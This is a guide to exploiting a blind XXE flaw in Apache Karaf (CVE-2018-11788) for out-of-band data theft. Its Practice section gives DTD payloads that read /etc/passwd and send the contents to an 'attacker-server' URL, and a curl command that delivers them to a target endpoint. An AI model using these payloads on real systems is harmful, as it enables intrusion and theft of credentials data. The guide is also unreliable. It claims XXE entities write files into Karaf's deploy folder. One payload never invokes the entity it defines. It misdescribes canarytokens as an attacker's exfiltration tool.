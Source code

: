```yaml
---
title: Exploit XXE OOB with Apache Karaf Deploy Folder
description: Guide to exploiting XXE vulnerabilities in Apache Karaf for OOB data
  exfiltration using deploy folder injection.
keywords:
- XXE
- Apache Karaf
- OOB exfiltration
- deploy folder injection
- CVE-2018-11788
- blind XXE
- security
- XML parsing
---
```


# XXE OOB with Apache Karaf

## Context

This article focuses on exploiting a blind XML External Entity (XXE) vulnerability for out-of-band (OOB) data exfiltration specifically using Apache Karaf's deploy folder injection, as disclosed in CVE-2018-11788. This guide assumes familiarity with XML parsing, the fundamentals of blind XXE vulnerabilities, and concepts related to OOB exfiltration.

## Theory

### Apache Karaf Deploy Folder Injection (CVE-2018-11788)

Apache Karaf is a versatile, modular OSGi runtime environment. One of its features is the `deploy` folder, which automatically loads and executes bundles placed within it. Prior to version 4.2.2, a vulnerability allowed attackers to exploit XXE to write arbitrary files to this folder. This could trigger either code execution or enable data exfiltration by writing sensitive files to locations controlled by the attacker. The `deploy` folder is intended for trusted operations; however, an XXE vulnerability can break this trust, allowing malicious file injection.

### XXE Payloads for OOB Exfiltration via Deploy Folder

The essence of using XXE for OOB data exfiltration is that it leverages the XML parser's ability to resolve and action external entities. Through this, an attacker can cause the parser to fetch and write both local and remote files to locations they control or monitor. Typically, a DTD (Document Type Definition) is injected, which instructs the parser to act upon these entities, thus bypassing any direct output restrictions by causing effects such as file creation at unwanted locations.

### OOB Data Exfiltration with Canarytokens

Canarytokens are unique resources, such as URLs or files, designed to alert when accessed. By strategically placing canarytokens within exfiltrated data flows, attackers can ensure they receive real-time alerts whenever data is accessed or manipulated. This method is particularly useful for tracking unintended usage or access to exfiltrated data, making it a pivotal element in the exfiltration process.

## Practice

### Blind XXE OOB Exfiltration via Karaf Deploy Folder Injection

This section will guide you through exploiting the XXE vulnerability in Apache Karaf to exfiltrate sensitive information such as the `/etc/passwd` file using out-of-band channels.

- Craft a malicious DTD designed to exfiltrate `/etc/passwd` through Karaf's deploy folder by creating an external entity that fetches this file and sends it to an attacker-controlled server.  
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % all '<!ENTITY &#x25; send SYSTEM "http://attacker-server/?data=%file;">'>
  %all;
  ```
  This payload extracts the sensitive file and routes its contents to a server under attacker control.

- Modify the payload to write data to Karaf's deploy folder, leveraging its auto-processing capabilities.
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % all '<!ENTITY &#x25; send SYSTEM "file:///opt/karaf/deploy/evil.txt">'>
  %all;
  ```
  In this version, the DTD writes the file content directly to the deploy folder designated for automatic processing by Karaf.

- Deliver the crafted payload to the XML endpoint, referencing the malicious DTD, by sending a request to the target system.
  ```bash
  curl -X POST -d @malicious.xml http://target/vulnerable-endpoint
  ```
  Replace the URL with the actual vulnerable endpoint and the payload file `malicious.xml` with your crafted XML data.

- Monitor the deploy folder or receive alerts from a canarytoken to verify successful file deployment or access.
  
Successful exploitation should result in the sensitive data in `/etc/passwd` being written to the monitored location on the attacker's server, or alert triggered through canarytokens.

## Tools

- **curl**
- **Canarytokens**
- **Burp Suite**